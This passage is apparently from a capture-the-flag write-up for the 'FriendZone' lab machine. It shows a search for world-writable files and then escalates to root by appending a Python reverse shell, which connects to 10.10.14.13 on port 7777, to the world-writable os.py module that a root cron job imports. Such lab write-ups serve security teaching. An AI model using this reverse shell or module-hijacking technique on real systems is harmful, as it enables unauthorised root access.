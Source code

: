 ```python
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Permissions on the file are restricted and the login info in the script isn't helpful. Moving on... Looking for world-writable files  gives another interesting result as well:

```bash
find / -xdev -type f \( -perm -0002 -a ! -perm -1000 \) -print 2>/dev/null
```

![writable](./friendzone/writable.png)

`/usr/lib/python2.7/os.py` is not a standard world-writable file. That file is also included as a Python module in the `reporter.py` script. This can be exploited by adding code to `/usr/lib/python2.7/os.py` that spawns a reverse shell. Hopefully, this `reporter.py` script is executed in a cron job that is currently not visible to as the `www-data` user (with `crontab -l`) . Here is the Python reverse shell:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Append that code to `os.py` with the following and wait for the connection on port 7777:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);' >> /usr/lib/python2.7/os.py
```

And after waiting for a few, the following callback is established as `root`!

![root](./friendzone/root.png)

